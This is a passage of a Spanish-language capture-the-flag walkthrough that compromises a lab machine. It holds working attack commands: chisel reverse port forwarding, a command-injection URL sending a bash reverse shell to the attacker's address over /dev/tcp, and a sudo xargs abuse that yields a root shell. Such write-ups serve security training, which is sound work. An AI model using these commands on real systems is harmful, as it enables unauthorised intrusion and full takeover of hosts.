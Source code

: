 ```shell
curl -o chisel.gz -L https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
chmod +x chisel
```

Máquina atacante:

```shell
./chisel server --reverse 1234
```

Máquina víctima:

```shell
./chisel client 172.17.0.1:8080 R:9999:127.0.0.1:9999
```

![Pasted image 20240506210404](https://github.com/albertomarcostic/HackTheHeaven/assets/131155486/b6298c14-4f40-4205-aa5e-ee1302a62f0e)

Ahora ya podemos acceder desde nuestro navegador local:

![Pasted image 20240506210734](https://github.com/albertomarcostic/HackTheHeaven/assets/131155486/4e159688-d36a-494a-b30a-cc74d7a0bc82)

Nos ponemos en escucha con **netcat**:

```shell
nc -nlvp 4433
```

Nos enviamos una **reverse shell** desde la URL:

```shell
http://localhost:9999/index.php?cmds4vi=bash -c "bash -i >%26 /dev/tcp/172.17.0.1/4433 0>%261"
```

Estamos dentro como el usuario **s4vitar** Si hacemos **sudo -l** vemos que podemos ejecutar **xargs** como el usuario **root**.

```shell
sudo -l
-----------------------------
User s4vitar may run the following commands on ba39cbc27b36:
    (root) NOPASSWD: /usr/bin/xargs
```

Abusamos de este ejecutando:

```shell
sudo /usr/bin/xargs -a /dev/null bash
```

```shell
whoami
----------------
root
```

Hemos alcanzado el nivel de privilegios máximos en la máquina !
